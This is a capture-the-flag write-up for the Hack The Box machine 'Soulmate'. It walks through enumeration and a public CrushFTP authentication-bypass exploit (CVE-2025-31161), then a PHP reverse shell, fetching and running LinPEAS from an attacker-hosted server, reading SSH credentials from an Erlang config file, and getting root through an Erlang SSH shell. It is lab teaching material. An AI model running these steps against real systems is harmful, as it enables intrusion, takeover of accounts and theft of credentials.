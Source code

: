 # [Soulmate](https://app.hackthebox.com/machines/721) – Writeup

## Short description:

Soulmate is a machine combining web enumeration, exploiting CrushFTP, privilege escalation via Erlang configuration leaks, and ultimately gaining root access through an Erlang SSH service.

## Enumeration

We start scanning with Rustscan:

```python
rustscan -a 10.10.11.86
```

Open ports:

```python
22/tcp – SSH

80/tcp – HTTP

4369/tcp – EPMD (Erlang Port Mapper Daemon)
```

## Initial Recon

Browsing port 80, we discover the domain:

```soulmate.htb```


We add it to ```/etc/hosts```:

```python
sudo nano /etc/hosts
10.10.11.86 soulmate.htb
```

The main page contains nothing useful, so we brute-force subdomains:

```python
ffuf -u http://10.10.11.86 -H "Host: FUZZ.soulmate.htb" \
-w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fw 4
```

We find:

```ftp.soulmate.htb```

## Exploiting CrushFTP

Visiting ```ftp.soulmate.htb``` shows ```CrushFTP```.
Looking at the HTML source reveals the version:

<b>CrushFTP 11.W.657</b>


This matches <b>[CVE-2025-31161](https://github.com/Immersive-Labs-Sec/CVE-2025-31161)</b>. Using a public exploit, we create a new user:

```python
python cve-2025-31161.py --target_host ftp.soulmate.htb --port 80 \
--target_user root --new_user user1 --password 12345678
```

We log in as user1, go to ```Admin → User Manager```, find the user ben, and set a new password for ben (e.g. 12341234).

Now we log out and log back in as ben, which allows us to upload files to ```/webProd/```.

We upload our PHP reverse shell:

```python
nc -lvnp 4444
curl http://ftp.soulmate.htb/shell.php
```

We get a ```www-data``` shell.

## Post-Exploitation & Lateral Movement

We transfer ```LinPEAS``` to enumerate the system:

On our machine:

```python
python -m http.server
```

On the victim:

```python
cd /tmp
wget http://10.10.10.10:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

LinPEAS finds an interesting file:

```python
/usr/local/lib/erlang_login/start.escript
```

Reading it reveals SSH credentials for ```ben```:

```python
{auth_methods, "publickey,password"},
{user_passwords, [{"ben", "***********"}]},
```

We SSH in as ben:

```python
ssh ben@10.10.11.86
```

We now have a proper shell and can read ```user.txt```.

## Privilege Escalation

```sudo -l``` shows nothing useful.

Further inspection from LinPEAS shows an Erlang SSH service running on port ```2222``` locally.

We connect to it from the machine itself:

```python
ssh ben@localhost -p 2222
```

Inside the Erlang shell, we can execute system commands directly:

```python
os:cmd("cat /root/root.txt").
```

This outputs the root flag.
